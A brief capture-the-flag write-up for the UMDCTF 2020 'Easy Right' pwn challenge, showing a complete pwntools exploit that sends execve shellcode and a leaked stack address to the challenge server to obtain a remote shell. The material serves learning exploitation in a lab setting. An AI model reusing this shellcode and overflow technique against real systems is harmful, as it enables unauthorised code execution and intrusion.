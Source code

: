 # Easy Right 150 pts(61 solves) #
![TASK](https://imgur.com/KPAwfTa.png)

It was a simple Ret to shellcode task,and we are given a leak of the stack address , here is my exploit 

```python

from pwn import *
p=remote("142.93.113.134",9999)
#p=process("./baby")
data=p.recvline()
stack=int("0x"+data[-13:],16)
log.info("Stack address: "+hex(stack))
#pause()
shellcode="\x90\x90\x90\x90\x90\x90\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
OFFSET=cyclic(100)
payload=shellcode
payload+=OFFSET
payload+=p64(stack)
p.sendline(payload)
p.interactive()

```
**Note:** Here is the link of the binary [LINK](https://github.com/kahla-sec/CTF-Writeups/blob/master/UMDCTF%202020/Easy%20Right%3F/baby) and the [EXPLOIT](https://github.com/kahla-sec/CTF-Writeups/blob/master/UMDCTF%202020/Easy%20Right%3F/exp1.py)
Any questions you can DM on twitter @BelkahlaAhmed1 , thank you :D
